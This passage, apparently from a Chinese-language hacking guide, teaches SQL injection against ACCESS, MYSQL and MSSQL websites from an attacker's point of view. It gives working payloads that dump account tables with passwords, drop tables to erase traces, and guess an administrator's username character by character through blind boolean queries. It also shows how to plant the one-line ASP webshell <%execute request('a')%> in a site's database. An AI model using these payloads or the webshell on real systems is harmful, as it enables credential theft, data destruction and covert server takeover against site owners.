然后再利用前面制造错误回显的技巧取得表中的内容，语法如下：

```sql
' UNION SELECT iDPass,1,1,1 FROM tblHacker---
```

错误回显如图 6 所示，表中所有账号和密码都在回显中被列出了，当然事后要擦除痕迹，以避免被系统管理员注意到。在用户名输入框中输入如下内容，删除掉刚新建的表 tblHacker。

```sql
'; DROP TABLE tblHacker---
```


图 6

SQL 注入是从正常的 WWW 端口（即 80 端口）访问，而且表面看起来跟一般的 WEB 页面访问没什么区别，因此一般的防火墙是不会对其作出反应的。SQL 注入的痕迹只在 IIS 记录中有，如果管理员没有功夫每天检查海量的 IIS 日志，是很难发现这些入侵痕迹的。如图 7 所示，这是专业 IIS 日志查看工具中查找出的注入记录。

| l_tour | frompage | l_content | l_addtime | l_ip |
|---|---|---|---|---|
| group.search.asp |  | action=online | 2008-1-24 11:20:07 | 192.168.3.102 |
| group.addnews.asp |  | usertitleid=4 and selec * from admin | 2008-1-24 11:21:29 | 192.168.3.102 |
| group.addnews.asp |  | usertitleid=4' and '1'='1 | 2008-1-24 11:21:29 | 192.168.3.102 |
| group.addnews.asp |  | usertitleid=4' and '1'='1 | 2008-1-24 11:21:30 | 192.168.3.102 |
| group.addnews.asp |  | usertitleid=4 and 1=2 | 2008-1-24 11:21:47 | 192.168.3.102 |
| group.addnews.asp |  | usertitleid=4 and 1=1 | 2008-1-24 11:21:47 | 192.168.3.102 |

图 7

SQL 注入的手法相当灵活，在注入的时候会碰到很多意外的情况。能不能根据具体情况进行分析，构造巧妙的 SQL 语句，从而成功获取想要的数据，就是高手与菜鸟的区别。

最后总结一下关于注入的知识点：注入漏洞的成因在于相当大一部分程序员在编写代码的时候，没有对用户输入数据的合法性进行判断，或者过滤做得不严密，使应用程序存在安全隐患。用户可以提交一段数据库查询语句并从注入点执行，而又因为 MSSQL 有从 WEB 返回出错信息的功能，用户可以根据程序返回的结果，获得如表名、字段等数据，甚至可以通过注入直接执行备份语句导出一个 WEBSHELL。

关于 SQL 注入技术，大家可以用一个简单的概念来理解：注入就是在网站正常的 SQL 语句后面被塞进了别的语句，于是结果相当于执行了两条语句，一条是正常的网站调用语句，另一条则是黑客提交的语句。这种能执行两条语句并能提交进数据库执行的链接就是注入点。例如找到了注入点 `http://www.xxx.com/list.asp?id=3301`，然后在地址栏链接后输入 SQL 语句即可。我们提交 `http://www.xxx.com/list.asp?id=3301 and exists (select * from [admin])`，如图 8 所示。



链接后的 `and exists (select * from [admin])` 就是 SQL 语句，加上 and 是为了连接两个语句，就好像我们在 GOOGLE 中搜索时加的 AND 一样，把两个语句连在一起执行。最后的结果有两个可能：一个是真，一个是假。如果为假，页面会返回错误；如果为真，返回的就是正确页面，这叫“猜解法”。

如果是 MSSQL 的数据库，则可能返回 SQL 语句执行后的结果。直接暴出结果利用的是 MSSQL 的出错提示功能，这其实是将不同类型的数据进行比较，诱使 MSSQL 报错。

简单地来说，假如在 MSSQL 中有一个 = 号，它左边是个数字，右边是个字符，这显然是无法相等（无法比较）的，MSSQL 会将数据进行转换，但字符串是无法转换成数字的，这时 MSSQL 会返回一个出错提示：“将 varchar 值 XXXXX 转换为数据类型为 int 的列时发生语法错误”。

如果在 = 号左边是一个查询管理员密码的语句，如 `(select top 1 password from [admin])`，将它与 = 号右边的数字 1 来进行比较，暴出的就是左边查询出的字段值与 1 比较后的结果。由于比较时转换为同类型数据出错，暴出的结果就是报错信息：“将 varchar 值 admin888 转换为数据类型为 int 的列时发生语法错误”，这样就从中直接得到了结果。

这种方法比 ACCESS 数据库的猜解要简单得多，叫“暴数据法”。注入的主要手法其实就两种——“猜”和“暴”！最后请读者记住，ACCESS 只能“猜”，而 MSSQL 数据库可以“暴”，也可以“猜”。

## 2 常用的数据库有哪几种？都存在注入漏洞吗？

常见的数据库主要有 ACCESS 数据库、MYSQL 数据库、MSSQL 数据库。一般个人及小型的网站通常使用 ACCESS 数据库，这种数据库使用一个可读文件保存数据库信息，默认后缀名为 .MDB，如图 9 所示。


另外，也可以使用专用的查看器，比如“辅臣数据库查看器”或 OFFICE 2000 等直接查看数据库内容，如图 10 所示。


ACCESS 数据库对硬件要求不高，管理方式简单，可以直接手动添加或修改内容，特别适合流量及数据少的网站。从安全角度来看，在没有专业安全常识的情况下，相对比 MYSQL 和 MSSQL 更安全，因为 MYSQL 和 MSSQL 的功能更多。

网络安全行业有句话叫“功能越少，安全性越高！”。ACCESS 数据库的用户在注入中只有查询权限，只要密码设置得当，数据库文件后缀不为 ASP 等可执行脚本，相信入侵起来还是比较困难的。

MYSQL 和 MSSQL 常应用于流量大、数据多的网站，在安全管理方面需要一些更专业的知识。如果进行了有效的管理和维护，其性能是 ACCESS 数据库无法比拟的，现在它们基本也是大家最普遍采用的数据库。

数据库无法被直接读取，只有在 MSSQL、MYSQL 数据库服务器下通过专门程序查看，其操作依赖于专门的语句和命令。如图 11 所示，这是部分 MSSQL 数据库执行语句。



这三种数据库都是存在 SQL 注入漏洞的，但是它们在利用程度和方式上有所不同。同一个注入漏洞的整站系统，使用的数据库不同，利用思路也有不同：

- **ACCESS** 数据库环境下，注入点只能用来查询，先得出管理员表的字段，然后才能得出管理员的账号和密码，是用“猜”的方法，主要用的是 SELECT 语句进行查询。
- **MYSQL** 主要入侵手法是读取数据库连接文件得到 MYSQL 的账号和密码，然后连接数据库进行入侵尝试。
- **MSSQL** 的主要入侵手法是通过注入点获取 WEB 主机目录，找到网站所在的目录路径，然后通过注入点备份一个 WEBSHELL。

三种数据库中以 MSSQL 入侵最复杂，但却很灵活，是 SQL 注入目前研究的主要方向。针对这三种数据库的入侵，在其他章节中会专门介绍，这里就不作多余描述了。除了这三种常见的数据库外，Oracle 也是比较常见的一种数据库，常用于大型数据查询检索的网站，如电信、证券等，这种数据库同样也是存在 SQL 注入漏洞的。

## 3 如何灵活地检测注入点

首先，ACCESS、MYSQL 和 MSSQL 数据库注入漏洞的检测方法是一样的，都可以在链接后加一个 `'`（单引号）后进行浏览，看返回的页面是否正常，以此来判断是否存在注入点。

怎么判断页面是否正常呢？当然是输入正常 URL 后得到的页面则是正常页面，除此之外所有与之不同的页面，包括出错提示、返回与之同类但不相关的页面都认为是非正常页面。

不过需要注意，明显的警告提示和返回首页这两种不同页面并不属于非正常页面，这是过滤了注入关键字导致的，如图 12 所示，这种页面的“不正常”相当明显，不能被当作返回不同而把其作为注入点对待。

有一点对初学者强调一下：所有注入输入的单引号、分号、逗号等字符，全部是在纯英文状态下的输入字符，而不是汉语全角下的输入字符。请在输入注入语句时将输入法切换到纯英文状态。另外，ACCESS、MYSQL、MSSQL 三种数据库的语句输入对大小写不敏感。

大写和小写字母组成的语句产生的作用是一样的。



图12

从数据库返回错误我们可以得知数据库类型，例如：ACCESS数据库报错通常为 Microsoft JET Database Engine 错误 `80004005`，如图13所示。



图13

MYSQL数据库报错通常为 Warning、`mysql_fetch_array`、`mysql_fetch_object`，信息中通常会有很明显的 MYSQL 字样，这当然是 MYSQL 数据库啦！如图14所示。



图14

MSSQL数据库报错通常为 Microsoft OLE DB Provider for SQL Server 错误 `80040e14`。

除了经典的 `'`（单引号）判断之外，在链接后加入 `and 1=1` 或 `and 1=2` 后浏览，通过看返回结果的信息，也是判断该链接是否为注入点的重要技巧。

现在越来越多的网站开始过滤单引号，如果在链接后面提交 `'` 就可能被过滤掉并显示提示，或者直接回到指定页面。如图15所示，在 URL 后加入单引号后网站返回首页。


图15

此外还有一种情况，那就是输入单引号后返回的页面仍是当前页面，并无变化，这也是一种过滤的情况。正因为对处于风口浪尖的单引号过滤日益增多，`and 1=1` 和 `and 1=2` 判断法正在成为主流。

我们找到一个站，在链接后输入 `and 1=1`（and 前有一个空格，请参看图16中的链接部分）返回正确页面，如图16所示。这里我提醒大家看清楚链接中的 `id=5` 及页面中的整体内容。



图16

然后我们再把链接中的 `and 1=1` 改成 `and 1=2`，其实返回的是个错误页面了，如图17所示。这种情况下，当然要排除那些定制的出错页面（比如404出错信息提示那种），主要是看应该正常浏览的页面出现不正常的显示情况。


图17

怎么知道图17是不正常的页面呢？页面上并没有什么奇怪的错误嘛？我前面提醒过大家看清楚图16的 id 数字和页面整体内容，再来看图17，id 数字并没有变，但在使用 `and 1=2` 后页面并没有回到刚才那个 ID 号为 5 的软件下载页面，而是跳到了别处，这是一个不正常的页面跳转，则说明此链接 90% 存在注入漏洞。

下面说一说在 MSSQL 数据库中的一个独特检测方法：

MSSQL 数据库支持多句执行，多句执行的两条命令之间的分隔符是 `;`（分号），所以 MSSQL 的注点检测除了 `and 1=1` 和 `and 1=2` 外，还可以用 `;`（分号）和 `'`（单引号）的返回不同来判断。

这种判断方法是 MSSQL 数据库独有的，这点技巧相当重要。有很多网站过滤了查询关键字，但却漏掉了一个小小的 `;` 号，结果导致能在语句后提交执行 MSSQL 语句造成注入。

请看图18所示，加入 `;` 后返回正确页面，而之前加入 `and 1=2` 时返回非正常页面，说明此注入点是 MSSQL 数据库。



图18

在此又得强调一点，虽然用单引号和分号能检测是否存在 MSSQL 注入点，但是这种检测方法常常出现误判。由于分号也是各大网站过滤的关键字符，很有可能网站是 ACCESS 数据库，在过滤单引号后出现非正常页面；由于分号被过滤成空字符，结果维持了原有正常页面，最容易被误认为是 MSSQL 注入点。

由于网站脚本文件中查询数据库所用的语句不同，`and 1=1` 和 `and 1=2` 还可以写成一种变形的形式，如：

```text
and 1=1 可以写成 ' and '1'='1

或

and 1=2 可以写成 ' and '1'='2
```

这种变形的注入常常出现在字符型的注入中，实际提交到 SQL 执行的最后结果是：

```sql
Select * from admin where user_name='nohack' and '1'='1'

或

Select * from admin where user_name='nohack' and '1'='2'
```

由于 `1=2` 肯定是错误的，造成整个语句出错，返回的自然不会是正常页面。如果确认存在注入漏洞，在提交语句时，最后要加上 `and '1'='1` 用来闭合程序中包含的语句，整个语句需写成：

```text
http://www.xxx.com/login.asp?id=nohack' and (select top 1 asc(mid(username,1,1)) from Admin)>0 and '1'='1
```

最后提交到 SQL 的语句是：

```sql
Select * from admin where user_name='nohack' and (select top 1 asc(mid(username,1,1)) from Admin)>0 and '1'='1'
```

这样的语句肯定是能执行成功的，以这种书写形式提交语句，其他的注入方法就和普通的注入并无区别了。

## 4 ACCESS 注入点如何利用

在介绍 SQL 注入的相关章节中向大家提到过，ACCESS 注入只能“猜”，意思是只能通过 IE 中返回相应的正常或不正常页面来判断自己提交的语句执行结果是否正确。打个形象的比喻，ACCESS 注入的实质好比是在与服务器玩《幸运52》的猜词游戏，服务器把你猜的对或错分别用页面返回的正常和不正常来回答，这种“是与否”的回答足够让我们猜解出网站的管理员账号和密码等重要信息。

ACCESS 注入的流程一般分如下几步：

- 1. 确定管理员表名
- 2. 确定管理员表存放管理员 ID 和密码的字段名
- 3. 猜解管理员 ID 和密码的字段长度
- 4. 逐个字符地猜解出管理员 ID 及密码的 ASCII 码
- 5. 转换 ASCII 码为十进制字符串得到管理员 ID 及密码

先看第一步，确定管理员表名，用到的语句是：`and exists (select * from [guanli])`。方括号中的 guanli 就是要猜测是否存在的表名，可以将其替换为常见管理员表名 admin、manage 等来猜解是否存在。如果不存在，页面会返回不正确，如图19所示。


图19中很明确地提示该表不存在，继续替换，直至表名正确为止。在此例中，当猜解表名是否为 admin 时返回了正确页面，如图20所示。


这就说明表名猜对了，数据库中的确存在叫 admin 的表。在以上例子中，当数据库中不存在“guanli”这个表时，页面返回了明显的提示。其实在更多的情况下，页面是不会出现这么直白提示的，需要以返回页面的正确与错误来判断是否猜中了表名。得到表名，接下来是猜解表中的字段名，方法和猜表名类似，也是替换语句中字段名，语句是：

```sql
and exists (select top 1 [name] from [admin])
```

前面 `[name]` 方括号中的 name 可以换成你要查询的字段名，后面 admin 则是要查询的表名。这一句的意思就是查询在 admin 表中是否存在 name 字段。判断方法和前面一样，如果存在查询的字段名则返回正常页；反之则是出错页面。

猜解完字段名和表名后，就要猜出字段中字符的长度并逐一猜解每一位字符。先来看看如何猜解字符长度，提交语句：`and (select top 1 len(username) from Admin)>3`。

这一语句的意思是，猜解 admin 表中的 username 字段的长度是否大于 3。比如我们提交到 `>5` 时页面不正常，说明这个数不大于 5，则 username 字段的长度为 5。语句中的 len 是个函数，作用就是取括号中参数的长度值。

在知道了表名、字段名以及字段中内容的字符长度后，就要用折半法猜出数据，这是最为关键的一环，请看语句：`and (select top 1 asc(mid(username,N,1)) from Admin)>0`。

asc 函数的作用是把括号里的值转换为 ASCII 值，也就是对字符进行编码。我们可以用 ASCII 转换软件很方便地查看到各个字符对应的 ASCII 值。在使用之前要把软件“功能”菜单中的“ASCII速查”选中，如图21所示。




图21  图22

这样，我们在上面的输入框输入字符，下面的显示框就会显示出对应的 ASCII 值来。如图22所示，我们输入小写字母 a，对应的 ASCII 值是 97。

这样，我们能用数字来猜解字段中的每一个字符所对应的 ASCII 值，然后再转换这个值得到字符。

语句中的 N 表示猜解第 N 位的 ASCII 码，我们可以这样写：`and (select top 1 asc(mid(username,1,1)) from Admin)>0`，表示猜解 admin 表中 username 字段内容的第一个字符的 ASCII 值。语句：`and (select top 1 asc(mid(username,2,1)) from Admin)>0`，表示猜解 admin 表中 username 字段内容的第二个字符的 ASCII 值，以此类推……

语句中 `>0` 取值从负数到正数都有可能，当然常见的密码都是数字加字母的组合，它们的 ASCII 值在 0-128 之间。将值替换为这之间的值，如果正确则返回正常页面，反之则返回出错。

通过猜解，使用语句 `and (select top 1 asc(mid(username,1,1)) from Admin)>100` 时页面正常，说明第一位的 ASCII 值大于 100。再继续修改语句为：`and (select top 1 asc(mid(username,1,1)) from Admin)>120`，页面出错，说明第一位 ASCII 值小于 120，这个字符的 ASCII 值小于 120 而大于 100。

继续猜解，最后在使用语句：`and (select top 1 asc(mid(username,1,1)) from Admin)>107` 时返回正常页面，但在使用语句 `and (select top 1 asc(mid(username,1,1)) from Admin)>108` 时返回错误页面，说明这个 ASCII 值大于 107 但不大于 108，那么这个数的值就是 108！

现在把这个数字放进 ASCII 转换软件查看其对应的字符，如图23所示，得出 username 字段中值的第一个字符是 l。



图23

循环上面的过程，将 N 分别替换为 2、3、4……反复猜解即可得出字段每一位的值，并通过转换而得到字段内容。

例如猜解的第一位是 l，第二位是 a，第三位是 o，第四位是 z，第五位是 h，第六位是 o，第七位是 u，组合到一起，username 字段的值就是 laozhou，这就是管理员的用户名了。

举一反三，只要把猜解的字段名换成 password，很快也可以用上述方法得到管理员密码。

## 5 如何向数据库插入木马得到 WEBSHELL？

本小节只说在 ACCESS 数据库中插入木马，MYSQL、MSSQL 数据库等的插马技术不在此节介绍范围内。

在 ACCESS 数据库中插入木马，要具备三个条件：

- 1. 数据库里没有加入防下载字段等破坏数据库的数据。如果数据库作了防下载处理，插入木马后也无法正常执行，会提示“有未关闭的脚本标记 `%>`”，如图24所示。
- 2. 要知道数据库的地址。如果不知道数据库的地址，插入木马后也无法连接包含 WEB 木马的数据库（实际这时可把数据库文件看作一句话 WEB 木马），自然无法成功得到 WEBSHELL。
- 3. 数据库要是 ASP 或 ASA 等能被服务器当作 ASP 脚本文件来执行的后缀文件名，否则插马后无法像 ASP 脚本一样被解析，你插入的木马自然是无效的。



例如某网站通过猜解数据库地址得到了其真实地址 `http://www.xxx.com/e/pop/database/data.asp`，访问后出现如图25所示的信息。



这种看似乱码的信息是数据库的数据，此时满足如上所说三个条件：ASP 后缀、未作防下载等破坏数据库结构的防护、得知了数据库地址。这样就可以开始尝试向数据库插入木马。

在网站中找一个能提交数据的地方（比如发言及提交问题等处），把一句话写 `<%execute request("a")%>` 提交进去，如图26所示。

```asp
<%execute request("a")%>
```

